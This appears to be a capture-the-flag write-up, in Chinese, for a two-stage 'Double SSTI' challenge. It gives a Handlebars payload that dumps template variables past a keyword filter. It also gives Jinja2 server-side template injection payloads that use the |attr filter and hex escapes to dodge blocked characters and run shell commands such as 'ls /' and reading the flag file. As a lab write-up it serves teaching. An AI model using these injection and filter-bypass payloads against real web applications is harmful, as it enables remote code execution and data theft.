


# Double SSTI

觀察傳進去 template 的變數，有包含 secret，但是 WAF 擋住了包含 `secret` 子字串的 `name`，所以我的策略就是構造一個 payload 來印出 `@root` 下的所有變數 

```
{{#each @root}} {{@key}}: {{ this }} {{/each}}
```

把 payload url encode 後，可以得到：`https://double-ssti.chal.h4ck3r.quest/welcome?name=%7B%7B%23each%20%40root%7D%7D%20%7B%7B%40key%7D%7D%3A%20%7B%7B%20this%20%7D%7D%20%7B%7B%2Feach%7D%7D`

就可以破出第一層的 secret 為 `77777me0w_me0w_s3cr3t77777`


接著就可以進到 stage 2 的頁面：/2nd_stage_77777me0w_me0w_s3cr3t77777



構造 jinja SSTI 的 payload: `{{request['application']['__globals__']['__builtins__']['__import__']('os').popen('ls /').read()}}`

但發現 `[` `]` 被擋了，所以要使用 jinja 提供的 `|attr('xxx')` 來 bypass。發現 `.` 還有 `_` 都被擋了，要把他轉成 `\x` escape string。最後的 payload 就可以做到 RCE：

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```



```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /y000_i_am_za_fl4g')|attr('read')()}}
```

